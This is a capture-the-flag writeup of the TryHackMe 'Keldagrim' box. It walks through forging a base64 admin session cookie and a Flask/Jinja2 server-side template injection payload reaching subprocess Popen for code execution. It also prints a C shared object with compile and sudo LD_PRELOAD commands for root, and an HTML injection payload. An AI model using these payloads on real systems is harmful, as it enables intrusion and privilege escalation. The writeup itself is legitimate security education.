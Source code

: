 ```yaml
---
layout: post
title:  Keldagrim Writeup
description: A realistic box. Many things were learned during this challenge, and I highly recommend reading this writeup.
date:   2021-02-05 
image:  '/images/keldagrim.png'
tags:   [Python, SSTI]
---
```


**This report can be read both on this site, and as its <a href = "https://0xd4y.com/reports/Keldagrim%20Writeup.pdf">original report form</a>. It is highly recommended that you read the original report form instead because it is better formatted.**

This box was rated as a medium difficulty by TryHackMe. This was a great box in the sense that the attacker did not have to get lucky by brute forcing a directory or password. Instead, the vulnerability came from connecting dots and researching. That being said, let’s get right into the box!

Enumerating the ports, we find that only ports 22 and 80 are open:

![](/reports/Keldagrim/image2.png)

Looking at the results we don’t find anything out of the ordinary, except for the httponly flag not being set. Let’s just check out the website and see what we find.

![](/reports/Keldagrim/image12.png)

xt file. We are met with a very simple page with a couple of directories. On the “Our Team” tab we find two possible users: Jed and Jad. This may or may not be useful later on, so I made sure to add this to my notes.txt file. Looking around we click on the “Buy Gold” tab and we see an interesting Admin option:

![](/reports/Keldagrim/image1.png)

Unfortunately the admin option is grayed out. I couldn’t find anything more useful in this so let’s use our trusty tool: Burpsuite! I captured a request to the /team directory and saw a couple of very strange things:

![](/reports/Keldagrim/image10.png)

First of all, there is a session cookie which is encoded in base64. Decoding this, we see that Z3Vlc3Q= is the base64 encode of guest. When base64 encoding the string ‘admin’ (YWRtaW4=) and pasting that into the session cookie, we see that the content length changes! Let’s use the developer tools, paste this base64 string in the session value, and reload the page.

![](/reports/Keldagrim/image5.png)

And we are now the admin! Unfortunately, there is not much that has changed except for the strange ‘sales’ cookie which is also base64 encoded. Decoding this, we see that it corresponds to the $2,165 we see on the screen. At this point, I was stuck for a long time, but at the back of my mind was this strange server in one of my requests to the page with all the packages to be bought:

![](/reports/Keldagrim/image13.png)

Server: Werkzeug/1.0.1 Python/3.6.9

This is what comes to mind. Seeing Werkzeug and python brings to mind that maybe Flask has something to do with this. After a lot of research, it seemed that this box might be vulnerable to SSTI (Server Side Template Injection). I came across a great article on this topic, which explained very well on how this vulnerability is exploited: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://www.google.com/url?q=https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee&sa=D&source=editors&ust=1653954534767158&usg=AOvVaw3cO1ZM3W9Fe-ZTh2QettjH)

TL;DR you can get code execution through abusing flask. Proof of concept:

![](/reports/Keldagrim/image9.png)

![](/reports/Keldagrim/image4.png)

As we can see, the server evaluated 7\*7 which is 49. You must find the subprocess Popen under the <object> class with which you will get code execution. After viewing all the sub processes within the object class, I grepped the Popen subprocess to find at which index it is located. After discovering that it was at the 402nd location, the final payload looks like the following:

{{''.\_\_class\_\_.\_\_mro\_\_\[1\].\_\_subclasses\_\_()\[401\]('ls',shell=True,stdout=-1).communicate()}}

Now that we have code execution, let’s get a reverse shell!!

![](/reports/Keldagrim/image3.png)

There is user.txt. One of the first things I run when getting a reverse shell is sudo -l:

![](/reports/Keldagrim/image8.png)

Unfortunately, getting root won’t be as easy as just looking up /bin/ps on gtfobins. Fortunately, however getting root is easy nonetheless! The env\_keep+=LD\_PRELOAD is particularly strange. Looking this up, I came across an article that explained how to exploit this ([https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/](https://www.google.com/url?q=https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/&sa=D&source=editors&ust=1653954534768244&usg=AOvVaw0snkjC96zCdV2nbDP5tsbG))

Essentially, we want to create a shared object that will be run as root as part of the LD\_PRELOAD environment. As a result, the actual function for /bin/ps will be overridden by our own binary. Using this fact, we can create a shell as root! We must compile the code below as a shared object and add it to the LD\_PRELOAD environment.

1

2

3

4

5

6

7

8

9

#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void \_init() {

unsetenv("LD\_PRELOAD");

setgid(0);

setuid(0);

system("/bin/sh");

}

I saved the code below as exploit.c and compiled it with the following commands:

cd /tmp

gcc -fPIC -shared -o shell.so exploit.c -nostartfiles

sudo LD\_PRELOAD=/tmp/shell.so ps

![](/reports/Keldagrim/image6.png)

BONUS:

I ran nikto on this website, and it found an interesting vulnerability:

![](/reports/Keldagrim/image7.png)

According to nikto, the site is vulnerability to HTML injection so let’s try it out using the payload they suggest:

/ts2s1NMDd1VJtKSBRcn82Yzs6CMY1u42RDsdfO6lT8XQ4d2wnexQKAEmtizMPNHTnyEq2tGZFhuZFztIsW0KFFesXGzcEkCmWUYaq4CFDSQLzsu2gpT6eeKTFGHIDulc5a6layCW57JZyywP1ULTbIaz1LScDK6V74lsCTy8jH6z49h4spfFApiSynzRB18unriHDFcu1O9DivFGpMyUrxCsBPOLZQ0<font%20size=50>

![](/reports/Keldagrim/image11.png)

As can be seen, the font size has increased to a ridiculous size. This confirms the HTMLvulnerability. This vulnerability is not critical in the context of this box, as no other users will be using the exact same instance. However, in the case that this website were to be visited by many other users, the attacker can possibly steal their credentials by using a phishing attack. They can create a page for the victim to enter their username and password, and this information will be sent back to the attacker.  

This was a great box, and I thank the creator @optional for creating such a fun challenge! Thanks for reading this writeup, I hope you learned as much from this box as I did. I wish you a wonderful day (or night)!
